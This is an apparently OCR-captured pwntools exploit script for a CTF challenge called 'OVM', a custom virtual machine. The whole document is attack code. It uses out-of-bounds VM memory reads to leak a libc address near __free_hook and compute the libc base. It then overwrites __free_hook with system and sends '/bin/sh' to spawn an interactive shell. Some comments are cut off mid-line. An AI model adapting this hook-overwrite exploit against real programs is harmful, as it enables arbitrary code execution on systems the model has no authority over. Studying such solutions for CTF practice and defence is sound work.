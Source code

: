 ```
    setnum(0,8),# reg[0]=8
    setnum(1,0xff), #reg[1]=0xff
    setnum(2,0xff), #reg[2]=0xff
    lhl(2,2,0), #reg[2] = reg[2]<
    add(2,2,1), #reg[2] = reg[2] + reg[1] = 0xff00 + 0xff = 0xffff
    lhl(2,2,0), #reg[2] = reg[2]<
    add(2,2,1), #reg[2] = reg[2] + reg[1] = 0xffff00 + 0xff = 0xffffff
    lhl(2,2,0), #reg[2] = reg[2]<
    setnum(1,0xc8), #reg[3] = 0xc8
    add(2,2,1), #reg[2] = reg[2] = reg[2]+reg[1] = 0xffffff00 + 0xc8 = 0xffffffc8 = -56
    readn(3,2), #reg[3] = memory[reg[2]] stdin
    setnum(1,1), #reg[1] = 1
    add(2,2,1), #reg[2] = reg[2] + reg[1] = -55
    readn(4,2), #reg[4] = memory[reg[2]] stdin+4
    setnum(1,0x10),
    lhl(1,1,0), #reg[1] = reg[1]<
    setnum(5,0x90),
    setnum(6,0x3),
    add(1,1,1),#reg[1] = reg[1] + reg[1] = 0x1000 + 0x1000 = 0x2000
    lhl(6,6,0), #reg[6] = reg[6]<
    add(1,1,6), #reg[1] = reg[1] + reg[6] = 0x2000+0x300= 0x2300
    add(1,1,5), #reg[1] = reg[1] + reg[5] = 0x2300 + 0x90 = 0x2390
    add(3,3,1), #reg[3] = reg[3] + reg[1] = __free_hook-8
    setnum(5,47),
    add(2,2,5), #reg[2] = reg[2] + reg[5] = -55+47 = -8
    writen(3,2), #memory[reg[2]] = reg[3] = memory[-8] = reg[3]
    setnum(5,1),
    add(2,2,5), #reg[2] = reg[2] + reg[1] = -8 +1 = -7
    writen(4,2) #memory[reg[2]] = reg[4] = memory[-7] = reg[4]  

]

io.recvuntil("PC: ")
io.sendline(str(0))
io.recvuntil("SP: ")
io.sendline(str(1))
io.recvuntil("CODE SIZE: ")

io.sendline(str(len(code)))

for i in code:
   io.sendline(str(i))


io.recvuntil("3: ")
last_4bytes = int(io.recv(8),16)
suc("last_4bytes",last_4bytes)
io.recvuntil("4: ")
high_4bytes = int(io.recv(4),16)
suc("high_4bytes",high_4bytes)

libc_base = ((high_4bytes << 32) + last_4bytes) - libc.sym["__free_hook"] + 8
suc("libc_base",libc_base)
system = libc_base + libc.sym["system"]
io.recvuntil(" OVM?\n")
payload = b'/bin/sh\x00' + p64(system)
#gdb.attach(io)
io.send(payload)
io.interactive()
```
